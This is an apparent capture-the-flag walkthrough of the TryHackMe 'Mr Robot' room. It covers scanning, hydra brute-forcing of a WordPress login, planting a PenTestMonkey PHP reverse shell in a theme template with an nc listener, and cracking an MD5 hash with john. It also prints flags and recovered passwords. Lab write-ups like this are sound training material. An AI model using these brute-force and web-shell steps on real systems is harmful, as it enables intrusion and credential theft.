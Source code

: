 https://tryhackme.com/room/mrrobot

**Basic enumeration**

    22/tcp  closed ssh
    80/tcp  open   http     Apache httpd
    |_http-title: Site doesn't have a title (text/html).
    |_http-server-header: Apache
    443/tcp open   ssl/http Apache httpd
    |_http-title: Site doesn't have a title (text/html).
    | ssl-cert: Subject: commonName=www.example.com
    | Not valid before: 2015-09-16T10:45:03
    |_Not valid after:  2025-09-13T10:45:03
    |_http-server-header: Apache

So it looks like we are working with a standard webserver so we should start to more enumerations

    gobuster dir -u http://10.10.237.76/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -x txt,php

    nikto -h 10.10.237.76  
    
We find a robots.txt file so we should investigate that:

    User-agent: *
    fsocity.dic
    key-1-of-3.txt
    
    └─# cat key-1-of-3.txt 
    073403c8a58a1f80d943455fb30724b9

Lets also grab that .dic file

    wget http://10.10.237.76/fsocity.dic   

That is a big file! let us take a look at some of the entries

        └─# head fsocity.dic                                                                          
    true
    false
    wikia
    from
    the
    now
    Wikia
    extensions
    scss
    window
    
    └─# wc -l fsocity.dic 
    858160 fsocity.dic
    
    └─# sort -u fsocity.dic > sorted.dic

    └─# wc -l sorted.dic
    11451 sorted.dic

Whew that is much more reasonable to workwith, My bet is that this is a password/username list

**Initial Foothold**
    
Naviagate to the following url based on the gobuster scan
        http://10.10.237.76/wp-login
        
Pulling up burpsuite lets capture the request for a log in and feed that to hydra for some online brute forcing

        POST /wp-login.php HTTP/1.1

        Host: 10.10.237.76

        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

        Accept-Language: en-US,en;q=0.5

        Accept-Encoding: gzip, deflate

        Content-Type: application/x-www-form-urlencoded

        Content-Length: 103

        Origin: http://10.10.237.76

        Connection: close

        Referer: http://10.10.237.76/wp-login

        Cookie: s_cc=true; s_fid=30B417277AC07EA9-1832D8BCFA333922; s_nr=1661289741763; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check

        Upgrade-Insecure-Requests: 1



        log=user&pwd=passpass&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.237.76%2Fwp-admin%2F&testcookie=1

         
Alright we have a post form here, so we can now shape our hydra command

        hydra -L sorted.dic -p notarealpassword 10.10.237.76 http-post-form "/wp-login.php:log=user&pwd=passpass&wp-submit=Log&testcookie=1:Invalid"

-L is the list we will use for the username

-p is the single password to be used

http-post-form = the type of attack to perform

 "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log&testcookie=1:Invalid" = Path of webiste, POST body information, fail conditions (txt)

Here we find a user name 'elliot' we can run hydra again with pretty much the same parameters and arguments, except this time we will change the -L to -l to indicate a single username to try and change -p to -P and define the same sorted list we used before

        hydra -l elliot -P sorted.dic 10.10.175.151 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log&testcookie=1:incorrect"

        [80][http-post-form] host: 10.10.175.151   login: elliot   password: ER28-0652

Now that we have both a username and password let us login and figure out what we are dealing with

We are working with wordpress verison 4.1.31 and we have access to edit the templates and themes for pages. From here we can upload the PenTestMonkey PHP script to a 404.php template page and then navigate to a nonexistant endpoint on the webserver to trigger the php script. Prior to triggering the script, we will start up our netcat listener on the port we defined in the pentestmonkey script

        nc -lnvp 1337
        
                connect to [10.9.2.110] from (UNKNOWN) [10.10.175.151] 37713
        Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
         14:25:35 up  1:16,  0 users,  load average: 0.00, 0.49, 2.53
        USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
        uid=1(daemon) gid=1(daemon) groups=1(daemon)
        sh: 0: can't access tty; job control turned off
        $ 


Once we navigate around a bit we find a user robot in the home directory with the second key that we cannot read with our current permissions, additionally there is a password.raw-md5 that we can read so lets grab that and bring it back to our attacker machine\

        daemon@linux:/home/robot$ cat password.raw-md5
        cat password.raw-md5
        robot:c3fcd3d76192e4007dfb496cca67e13b
        
 Passing that hash into john we receive the following output:

        ┌──(root💀kali)-[/home/kali/mrrobot]
        └─# john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5                          1 ⨯
        Using default input encoding: UTF-8
        Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
        Warning: no OpenMP support for this hash type, consider --fork=4
        Press 'q' or Ctrl-C to abort, almost any other key for status
        abcdefghijklmnopqrstuvwxyz (?)  

